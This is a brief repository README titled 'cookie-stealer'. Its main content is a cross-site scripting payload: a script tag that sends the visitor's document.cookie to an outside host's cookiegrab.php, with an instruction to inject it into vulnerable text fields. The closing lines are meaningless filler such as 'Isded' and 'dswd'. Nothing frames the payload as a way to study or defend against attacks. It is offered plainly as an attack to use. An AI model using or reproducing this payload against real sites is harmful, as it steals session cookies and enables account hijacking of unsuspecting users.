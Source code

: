 # cookie-stealer

inject 
	<script language="javascript"> document.location= " http://kennethzhang.net/cookiegrab.php?c=" + document.cookie; </script>
into vulnerable text fields
Isded
dswd
aaa
